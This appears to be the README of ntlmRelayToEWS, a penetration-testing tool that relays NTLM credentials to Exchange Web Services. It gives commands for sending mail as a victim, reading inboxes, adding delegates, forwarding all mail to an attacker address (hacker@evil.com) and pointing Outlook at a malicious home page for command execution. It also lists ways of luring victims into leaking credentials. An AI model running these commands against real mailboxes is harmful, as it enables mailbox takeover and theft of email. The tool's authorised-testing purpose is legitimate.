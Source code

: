 ntlmRelayToEWS
============

Author: Arno0x0x - [@Arno0x0x](http://twitter.com/Arno0x0x)

**ntlmRelayToEWS** is a tool for performing ntlm relay attacks on Exchange Web Services (EWS). It spawns an SMBListener on port 445 and an HTTPListener on port 80, waiting for incoming connection from the victim. Once the victim connects to one of the listeners, an NTLM negociation occurs and is relayed to the target EWS server.

Obviously this tool does **NOT** implement the whole EWS API, so only a handful of services are implemented that can be useful in some attack scenarios. I might be adding more in the future. See the 'usage' section to get an idea of which EWS calls are being implemented.

Limitations and Improvements
----------------------
**Exchange version**:<br>
I've tested this tool against an **Exchange Server 2010 SP2** only (*which is quite old admitedly*), so all EWS SOAP request templates, as well as the parsing of the EWS responses, are only tested for this version of Exchange.
Although I've not tested myself, some reported this tool is also working against an **Exchange 2016 server**, out of the box (*ie: without any changes to the SOAP request templates*).

In case those SOAP requests wouldn't work on another version of Exchange, it is pretty easy to create the SOAP request templates to match a newer version by using the Microsoft EWS Managed API in trace mode and capture the proper SOAP requests (*that's how I did it !*).

**EWS SOAP client**:<br>
I would have loved to use a SOAP client in order to get a proper interface for automatically create all SOAP requests based on the Exchange WSDL. I tried using '**zeep**' but I banged my head on the wall to get it working with the Exchange WSDL as it requires to download external namespaces and as such requires an internet connection. Also, with 'zeep', the use of a custom transport session requires a `Requests.session` which is not the type of HTTP(S) session we have by default with the HTTPClientRelay: it would have required either to refactor the HTTPClientRelay to use '*Requests*' (*/me lazy*) or to simply get zeep to create the messages with `zeep.client.create_message()` and then send it with the relayed session we already have. Or is it because I'm a lame developper ? oh well...

Prerequisites
----------------------
**ntlmRelayToEWS** requires a proper/clean install of [Impacket](https://github.com/CoreSecurity/impacket). So follow their instructions to get a working version of Impacket.

Usage
----------------------
**ntlmRelayToEWS** implements the following attacks, which are all made on behalf of the relayed user (*victim*).

Refer to the help to get additional info: `./ntlmRelayToEWS -h`. Get more debug information using the `--verbose` or `-v` flag.

**sendMail**<br>
Sends an HTML formed e-mail to a list of destinations:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r sendMail -d "user1@corporate.org,user2@corporate.com" -s Subject -m sampleMsg.html`

**getFolder**<br>
Retrieves all items from a predefined folder (*inbox, sent items, calendar, tasks*):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r getFolder -f inbox`

**forwardRule**<br>
Creates an evil forwarding rule that forwards all incoming message for the victim to another email address:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r forwardRule -d hacker@evil.com`

**setHomePage**<br>
Defines a folder home page (*usually for the Inbox folder*) by specifying a URL. This technique, uncovered by SensePost/Etienne Stalmans allows for **arbitray command execution** in the victim's Outlook program by forging a specific HTML page: [Outlook Home Page – Another Ruler Vector](https://sensepost.com/blog/2017/outlook-home-page-another-ruler-vector/):<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r setHomePage -f inbox -u http://path.to.evil.com/evilpage.html`

**addDelegate**<br>
Sets a delegate address on the victim's primary mailbox. In other words, the victim delegates the control of its mailbox to someone else. Once done, it means the delegated address has full control over the victim's mailbox, by simply opening it as an additional mailbox in Outlook:<br>
`./ntlmRelayToEWS.py -t https://target.ews.server.corporate.org/EWS/exchange.asmx -r addDelegate -d delegated.address@corporate.org`

How to get the victim to give you their credentials for relaying ?
----------------------
In order to get the victim to send his credentials to ntlmRelayToEWS you can use any of the following well known methods:
  - Send the victim an e-mail with a hidden picture which 'src' attribute points to the ntlmRelayToEWS server, using either HTTP or SMB. Check the `Invoke-SendEmail.ps1` script to achieve this.
  - Create a link file which 'icon' attribute points to the ntlmRelayToEWS using a UNC path and let victim browse a folder with this link
  - Perform LLMNR, NBNS or WPAD poisonning (*think of Responder.py or Invoke-Inveigh for instance*) to get any corresponding SMB or HTTP trafic from the victim sent to ntlmRelayToEWS
  - other ?

Credits
----------------
Based on [Impacket](https://github.com/CoreSecurity/impacket) and *ntlmrelayx* by Alberto Solino [@agsolino](https://twitter.com/agsolino).

DISCLAIMER
----------------
This tool is intended to be used in a legal and legitimate way only:
  - either on your own systems as a means of learning, of demonstrating what can be done and how, or testing your defense and detection mechanisms
  - on systems you've been officially and legitimately entitled to perform some security assessments (pentest, security audits)

Quoting Empire's authors:
*There is no way to build offensive tools useful to the legitimate infosec industry while simultaneously preventing malicious actors from abusing them.*